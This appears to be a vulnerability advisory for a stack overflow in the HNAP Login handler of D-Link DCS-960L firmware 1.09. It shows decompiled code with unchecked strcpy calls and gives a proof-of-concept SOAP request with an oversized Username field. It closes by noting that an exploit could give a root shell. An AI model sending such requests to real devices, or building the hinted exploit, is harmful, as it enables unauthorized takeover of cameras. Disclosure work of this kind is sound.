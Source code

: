 # DCS-960L 1.09  Stack overflow vulnerability

## INFO
Manufacturer's address：https://www.dlink.com/
Firmware download address ： https://www.dlinktw.com.tw/techsupport/ProductInfo.aspx?m=DCS-960L

## Affected version
The firmware used in this analysis is 1.09

## Vulnerability details

At HNAP service, In the Login function, I can enter Action, the Action will strcpy to v42, but program do not check size, resulting in stack overflow.

```c
int __fastcall Login(int a1)
{
......
	ElementByTag = ixmlGetElementByTag(a1, "Login");
  v5 = ElementByTag;
  if ( !ElementByTag )
  {
    ixmlAppendNewElement(Document, Element, "LoginResult", "failed");
    v15 = Document;
    goto LABEL_49;
  }
  ElementValueByTag = (const char *)ixmlGetElementValueByTag(ElementByTag, "Action");
  if ( ElementValueByTag )
    strcpy(v42, ElementValueByTag);
......
}
```

In the Login function, I can enter Username and LoginPassword, the username&password will strcpy to v36&v38, but program do not check the size, resulting in stack overflow.

```c
int __fastcall Login(int a1)
{
......
				v16 = (const char *)ixmlGetElementValueByTag(v5, "Username");
        v17 = (const char *)ixmlGetElementValueByTag(v5, "LoginPassword");
        if ( v16 )
        {
          strcpy((char *)v36, v16);
          if ( !strcmp((const char *)v36, "Admin") )
            snprintf((char *)v36, 0x20u, "%s", "admin");
        }
        if ( v17 )
          strcpy(v38, v17);
        v53 = (const char *)v36;
        fprintf(stderr, "username: %s\\n", (const char *)v36);
        v55 = v38;
        fprintf(stderr, "loginPassword: %s\\n", v38);
......
}

```

## POC

```python
SOAPAction: http://192.168.0.1/HNAP1/Login
<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <Login xmlns="http://192.168.0.1/HNAP1/">
      <Action></Action>
      <Username>a * 0x10000</Username>
      <LoginPassword/>
      <Captcha/>
    </Login>
  </soap:Body>
</soap:Envelope>
```

Finally, you can write exp to achieve the effect of stable access to the root shell

